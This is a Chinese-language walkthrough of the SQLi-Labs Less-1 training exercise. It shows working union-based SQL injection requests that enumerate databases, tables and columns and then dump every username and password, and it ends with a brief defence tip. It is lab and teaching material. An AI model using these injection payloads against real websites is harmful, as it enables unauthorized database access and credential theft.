








# SQLi-Labs Less-1：基于联合查询的字符型注入

> **实验目标**：利用 SQL 联合查询漏洞，获取目标数据库中的敏感信息（数据库名、表名、字段名、账号密码）。

## 1. 探测注入点

向 `id` 参数传入 `1'`，尝试破坏原有 SQL 语句结构。

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=1'`

**原理**：  
原 SQL 语句可能为 `SELECT ... WHERE id='$id'`，输入 `1'` 后变成 `... WHERE id='1''`，单引号被闭合，多余的引号导致语法错误，从而触发数据库报错。报错信息表明存在字符型注入点。

**结果**：  
页面返回 MySQL 报错信息，确认存在字符型注入漏洞。

---

## 2. 判断返回列数

使用 `ORDER BY` 子句探测当前查询返回的列数。

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=1' order by 1--+`  
递增 `N` 至 4。

**原理**：  
`ORDER BY N` 按查询结果的第 N 列排序。若 N 大于实际列数，则数据库报错。依次尝试，直到报错时的 N 减 1 即为真实列数。

**结果**：  
当 `N=4` 时报错，说明查询返回 **3 列**。

---

## 3. 定位显示位（回显点）

利用 `UNION SELECT` 联合查询，将我们构造的数据显示在页面上。

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=-1' UNION SELECT 1,2,3--+`

**原理**：  
- 将 `id` 设为 `-1` 使原查询无结果，这样 `UNION` 的结果会成为第一条记录并被页面渲染。  
- `UNION` 要求前后查询列数相同，此处为 3 列。  
- 页面会显示 `2` 和 `3` 的位置，说明这两个列位可用于回显数据。

**结果**：  
页面显示 `2` 和 `3`，即这两个位置可显示我们注入的数据。

---

## 4. 获取当前数据库名

### 4.1 基础探测（单一数据库名）

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=-1' UNION SELECT 1,database(),3--+`

**原理**：  
`database()` 是 MySQL 内置函数，返回当前连接使用的数据库名称。

**结果**：  
页面显示 `security`。

### 4.2 批量获取所有数据库名（扩展技巧）

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=-1' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata--+`

**原理**：  
- `information_schema.schemata` 存储所有数据库的元数据。  
- `schema_name` 字段记录数据库名。  
- `group_concat()` 将多行合并为一行，便于一次性展示。

**结果**：  
返回所有数据库名列表（包括 `security` 等）。

---

## 5. 获取 `security` 库下的所有表名

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+`

**原理**：  
`information_schema.tables` 存储所有表信息，`table_schema` 过滤数据库名。

**结果**：  
返回 `emails, referers, uagents, users` 等表名。

---

## 6. 获取 `users` 表的所有字段名

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' AND table_name='users'--+`

**原理**：  
`information_schema.columns` 存储所有字段信息，通过 `table_schema` 和 `table_name` 精确过滤。

**结果**：  
返回 `id, username, password` 等字段。

---

## 7. 获取账号密码数据

**请求**：  
`http://127.0.0.1/sqli-labs/less-1/?id=-1' UNION SELECT 1,group_concat(username),group_concat(password) FROM security.users--+`

**原理**：  
直接查询目标表，利用 `group_concat` 将用户名和密码分别合并成两段字符串，一次展示所有凭证。

**结果**：  
页面显示所有用户名（如 `Dumb, Angelina, ...`）和对应的密码。

---

## 总结

本关利用 **联合查询注入**，成功获取了 `security` 库的完整数据结构及用户凭证。关键步骤为：  
1. 验证注入点（字符型）  
2. 确定列数  
3. 寻找回显位  
4. 依次查询数据库、表、字段、数据

> **防御建议**：使用参数化查询（预编译语句）和最小权限原则。
